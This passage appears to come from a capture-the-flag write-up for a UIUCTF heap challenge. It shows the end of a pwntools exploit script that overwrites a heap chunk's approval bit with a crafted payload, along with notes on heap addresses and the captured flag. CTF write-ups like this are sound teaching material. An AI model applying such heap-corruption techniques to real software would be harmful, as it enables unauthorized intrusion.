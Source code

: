 ```python
option(1)
p.clean()
p.sendline(b'a')

# Overwrite chunk REFUND_APPROVED bit with 1
option(3)
p.clean()
p.sendline(b'100')
p.clean()
payload = p64(0) * 2 + p64(0x91) + p64(0x1)
p.sendline(payload)

option(4)
p.clean()
p.sendline(b'1')

p.interactive()
p.close()

# uiuctf{the_memory_train_went_off_the_tracks}

# 0x555555559008 - first chunk
# 0x555555558060 - requests list

"""
pdata       | size 
next        | prev 
data        | ndata
"""
```
{% endtab %}
{% endtabs %}

<figure><img src="../../.gitbook/assets/image (11) (1).png" alt=""><figcaption><p>flag captured</p></figcaption></figure>
